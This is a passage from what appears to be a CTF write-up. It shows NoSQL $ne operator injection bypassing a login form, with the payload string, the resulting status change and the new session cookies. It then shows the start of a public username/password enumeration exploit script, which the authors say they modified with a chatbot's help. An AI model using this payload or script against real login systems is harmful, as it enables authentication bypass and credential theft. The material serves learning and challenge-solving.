 ```shell

[+] Not-Equals Array (param[$ne]) Injection for username has retrieved:
[+] 
[+]     For payload: username[$ne]=test&password[$ne]=123
[+] 
[+]     Status code with the injection is different!
[+]     200 => 302
[+] 
[+]     New Cookies:
[+]     PHPSESSID : 4b171cab8ae1398fadf4b9e00d887a2c
[+] 

[*] Parameter: password

[*] Attemping dump with Not-Equals Array (param[$ne]) Injection on param password


[+] Not-Equals Array (param[$ne]) Injection for password has retrieved:
[+] 
[+]     For payload: username[$ne]=test&password[$ne]=123
[+] 
[+]     Status code with the injection is different!
[+]     200 => 302
[+] 
[+]     New Cookies:
[+]     PHPSESSID : 9293888685d8f2f95e26a5048a70a4ec
[+] 
```

After we found the vulnerability, we started enumerating the different users and passwords with the use of [Nosql-MongoDB-injection-username-password-enumeration](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration). That being said, we did a little modification of the script via the use of Chat-GDB as the original script did not enumerate all usernames.

>The original script stops enumerating a string starting with a certain letter the moment it gets one hit.  
>For example, the script will detect the username `Frostbite` and then move on to usernames starting with **G**.  
>Therefore username `Frosteau` and other usernames starting with **F** will be missed.  
>While the solution underneath is not pretty, it provides a larger list of usernames.

```python
# Exploit Title: Nosql injection username/password enumeration
# Author: Kalana Sankalpa (Anon LK)
# Websites: https://www.widane.com, https://blogofkalana.wordpress.com
# Blogpost: https://blogofkalana.wordpress.com/2019/11/14/nosql-injection-username-and-password-enumeration/

#!/usr/bin/python
import string
import requests
import argparse
import sys
from colorama import Fore

parser = argparse.ArgumentParser()
parser.add_argument("-u", action='store', metavar="URL", help="Form submission url. Eg: http://example.com/index.php")
parser.add_argument("-up", action='store', metavar="parameter", help="Parameter name of the username. Eg: username, user")
parser.add_argument("-pp", action='store', metavar="parameter", help="Parameter name of the password. Eg: password, pass")
parser.add_argument("-op", action='store', metavar="parameters", help="Other paramters with the values. Separate each parameter with a comma(,). Eg: login:Login, submit:Submit")
```